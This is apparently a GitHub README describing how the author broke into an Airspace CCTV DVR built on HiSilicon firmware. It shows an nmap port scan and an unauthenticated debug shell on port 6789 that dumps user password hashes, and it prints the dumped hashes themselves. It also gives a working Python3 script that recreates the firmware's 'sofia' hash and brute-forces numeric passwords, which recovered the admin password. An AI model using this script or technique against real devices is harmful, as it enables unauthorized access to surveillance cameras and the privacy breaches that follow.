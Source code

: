 # HiSilicon_DVR_hack_python3
Python3 script to bruteforce admin password

So I have a DVR **Airspace CCTV** with a label Model: **SAM-1968**, user has login password as user, but no admin password

nmap scan:
```
Not shown: 65528 closed ports
PORT      STATE SERVICE
23/tcp    open  telnet
90/tcp    open  dnsix
554/tcp   open  rtsp
3800/tcp  open  pwgpsi
6789/tcp  open  ibm-db2-admin
8000/tcp  open  http-alt
49152/tcp open  unknown
MAC Address: 90:02:A9:9B:BB:F2 (Zhejiang Dahua Technology)
```

Was a bit stuck, until I try to netcat to all the ports, see I can login into the port 6789, a debug port, very limited shell with a few commands, anmong them
*users -u* will dump some kind of user list and some kind of *hash*
   
```
1:admin:Ny2SRZzv:1:1, 2, 3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 54, 55, 5
6, 57, 58, 59, 60:admin 's account:1:4          
2:default:OxhlwSG8:2:3, 4, 5, 6, 7:default account:0:4
3:XXXca:4jejqB7V:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
4:XXXoni:9pmPStaQ:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
5:XXXl:ijoPLH3a:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
6:XXXta:eq4yRN5P:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
7:XXXsa:kEuXCZhl     
```

I didn't recognize the hash format, so I started googling until I found a HiSilicon paper on exploit-db.com
https://www.exploit-db.com/papers/44003

On that excelent paper from Istvan Toth he describes the process he used to hack into the system extract the firmware, among that information he describes the user hash that the firmware uses. He even created a python2 script that replicate from the password the hash.
I converted it to python3 and implemented a function to do a quick a dirty bruteforce, and it worked, I just tried with 4 digits number password and it dumps some of the passwords, for the admin password on that dump I had to go the extra mile and add the word "admin" in front of the digits, and that revelaed the admin123 password.
I guess you can improve it so it can bruteforce using characters, or wordlist, or even a hashcat input, but for me was enough this way.

I'll paste the code here
```
import hashlib
lista =["Ny2SRZzv",
        "OxhlwSG8",
        "4jejqB7V",
        "9pmPStaQ",
        "ijoPLH3a",                                                                            
        "eq4yRN5P",
        "kEuXCZhl" ]
def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg.encode('utf-8'))
    msg_md5 = m.digest()
    for i in range(8):
        n = (msg_md5[2*i] + msg_md5[2*i+1]) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h

for i in range(9999):
    h = sofia_hash(str(i))
    #h = sofia_hash("admin" + str(i))
    if h in lista:
        print ("value %s hash %s" % (str(i) ,h))
```

